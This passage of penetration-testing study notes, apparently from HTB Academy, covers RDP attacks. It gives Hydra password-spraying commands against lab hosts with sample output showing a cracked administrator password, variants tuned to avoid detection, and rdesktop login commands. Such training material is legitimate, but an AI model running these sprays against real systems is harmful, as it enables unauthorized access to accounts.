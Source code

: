 ### 3. Hydra Password Spraying

#### HTB Academy Hydra Example
```bash
# Single password against username list
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

# Expected output
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
```

#### Optimized Hydra Commands
```bash
# Reduced connections to avoid detection
hydra -L usernames.txt -p 'password123' -t 1 -W 3 192.168.2.143 rdp

# Multiple targets with delay
hydra -L usernames.txt -p 'Spring2024!' -M targets.txt -t 4 -W 5 rdp

# Custom port scanning
hydra -L usernames.txt -p 'password123' -s 3390 192.168.1.100 rdp
```

---

## 🔗 RDP Connection Methods

### 1. rdesktop Client
```bash
# HTB Academy connection example
rdesktop -u admin -p password123 192.168.2.143

# Expected certificate warning
ATTENTION! The server uses an invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.
     Issuer: CN=WIN-Q8F2KTAI43A

Do you trust this certificate (yes/no)? yes
```

#### rdesktop Advanced Options
```bash
# Full screen connection
rdesktop -u administrator -p password123 -f 192.168.2.143

# Custom resolution
rdesktop -u admin -p password123 -g 1920x1080 192.168.2.143

# Enable sound and clipboard
rdesktop -u admin -p password123 -r sound:local -r clipboard:PRIMARYCLIPBOARD 192.168.2.143
```
